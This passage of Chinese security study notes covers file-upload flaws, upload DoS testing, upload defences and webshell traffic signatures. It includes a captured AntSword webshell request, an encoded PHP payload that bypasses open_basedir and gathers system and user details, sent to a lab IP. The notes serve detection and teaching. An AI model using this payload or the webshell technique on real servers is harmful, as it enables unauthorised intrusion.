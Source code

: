 #### 要检查是否存在⼤⽂件拒绝服务简单操作步骤：

1. 创建⼀个⼤于定义上限的⽂件。 例如，具有 500 MB ⽂件⼤⼩的图像⽂件。
2. 现在，上传⽂件，如果应⽤程序接受⽂件并开始处理它，从另⼀台设备浏览应⽤程序以查看是否有任何缓慢的⾏为或连接错误。



## **8**.防护⽅式：

> 过滤、封端⼝、关服务
>

1. 通过服务器后端对上传的⽂件进⾏过滤，防⽌本地⽂件上传限制被绕过
2. 及时查看最新公布漏洞通告，如果服务器中涉及相关组件，要及时更新补丁包
3. 对⽂件上传的⽬录进⾏控制，设置为不可执⾏ 。只要保证web容器⽆法解析该⽬录下⾯的⽂件，即使攻击者上传了脚本⽂件，服务器不对其进⾏解析，⽊⻢等也不会⽣效。

4. 对上传⽂件类型进⾏判断。可以结合使⽤MIME Type、后缀检查等⽅式。在⽂件类型检查中，尽量使⽤⽩名单⽅式，⿊名单和前端都属于不可靠的。

5. 使⽤随机数改写⽂件名和⽂件路径 。⽂件上传如果要执⾏代码，则需要⽤户能够访问到这个⽂件。在某些环境中，⽤户可以进⾏病毒⽊⻢等有害⽂件上传，但如果应⽤随机数改写了⽂件名和路径，攻击者在不知道程序源码情况下不了解随机数等规则，即不知道⽂件名称就不能访问。还有像shell.php.rar.rar 和 crossdomain.xml 这种⽂件，都将因为重命名⽽⽆法攻击。

6. 单独设置⽂件服务器的域名，⼀般信息搜集过程中都会进⾏的⼀项就是旁站和C端的收集，如果⽂件服务器和主站等在同⼀域名下，浏览器同源策略的关系，有可能攻击者通过⼀个点进⾏整体环境服务器的渗透。在单独设置⽂件服务器之后，⼀系列客户端攻击将失效，⽐如上传 crossdomain.xml、上传包含 Javascript 的 XSS 利⽤等问题将得到解决。

# webshell流量特征 抓包标注

```
http://192.168.70.10/upload/xxx.php
xxx
```

## 蚁剑

### 蚁剑连接

![image-20240901082503047](https://image.201068.xyz/assets/26.文件上传/image-20240901082503047.png)

### 蚁剑设置burp代理

![image-20240901082554651](https://image.201068.xyz/assets/26.文件上传/image-20240901082554651.png)

#### burp抓包

![image-20240901082734968](https://image.201068.xyz/assets/26.文件上传/image-20240901082734968.png)

```bash
xxx=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(base64_decode(%22Lzt8Oi8%3D%22)%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.6e03217734%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%24tmdir%3Drealpath(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%228f3f%22.%228e9e%22%3Becho%20%40asenc(%24output)%3Becho%20%22fec%22.%22112%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B
```
